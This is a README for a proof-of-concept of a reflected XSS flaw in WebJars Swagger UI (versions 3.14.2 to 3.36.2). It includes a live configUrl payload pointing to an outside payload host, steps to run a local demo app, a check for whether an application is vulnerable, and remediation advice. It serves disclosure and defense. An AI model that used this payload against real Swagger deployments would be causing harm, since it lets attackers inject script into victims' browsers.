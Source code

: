 # WebJars Swagger XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/http4k/examples/tree/master/hello-world](https://github.com/http4k/examples/tree/master/hello-world)

Credit to the http4k team for [maintaining simple, easy-to-use docs](https://www.http4k.org/guide/howto/deploy_webjars/) on setting up a quick web app to show off webjars.

## Quick Details
**Package**: [org.webjars:swagger-ui](https://mvnrepository.com/artifact/org.webjars/swagger-ui)

**Versions Affected**: [3.14.2, 3.36.2]

**Type of Issue**: [Reflected XSS](https://owasp.org/www-community/attacks/xss/)

**Payload/PoC**: `?configUrl=https://xss.smarpo.com/test.json` -- Append this to end of the Swagger UI URL and an alert dialog should fire.

* eg. `https://example.com/webjars/swagger-ui/3.14.2/index.html?configUrl=https://xss.smarpo.com/test.json`

## Am I vulnerable?
If your application includes the `org.webjars:swagger-ui` package within the stated vulnerable versions AND you make the
Swagger UI "routable" (aka, it can be loaded in a browser), your application has an XSS issue.

For example, if your app includes `org.webjars:swagger-ui:3.36.2` and your Swagger UI is available at https://localhost/swagger -- you are vulnerable.

For example, if your app includes `org.webjars:swagger-ui:3.17.6` and your Swagger UI is available at: https://example.com/swagger/swagger-ui -- you are vulnerable.

## About
The Swagger UI is commonly included in applications to allow for visually viewing a service's OpenAPI API documentation via
a convenient web-interface. Older versions of the Swagger UI suffer from known XSS issues. WebJars merely serve as a way
to package up common frontend code and provide it as a clean JVM-based dependency to avoid needing to manage frontend
dependency management on top of backend dependencies.

This particular vulnerability was originally found and described by: [https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)

## Running the PoC

You will need JDK 11 and Docker available for easiest running of PoC.

### With docker

1. Run: `docker build -t webjars-xss .`
2. Run: `docker run -p 8080:8080 webjars-xss`
3. Navigate to: http://localhost:8080/webjars/swagger-ui/3.36.2/index.html?configUrl=https://xss.smarpo.com/test.json

### Without docker

1. Run: `./gradlew clean distZip`
2. Run: `unzip build/distributions/Example.zip`
3. Run: `./Example/bin/Example`
4. Navigate to: http://localhost:8080/webjars/swagger-ui/3.36.2/index.html?configUrl=https://xss.smarpo.com/test.json


XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)

## Remediation

* Update `org.webjars:swagger-ui` to a version higher than `3.36.2`
* Remove routing for the swagger-ui webjars such that they are not available for web access
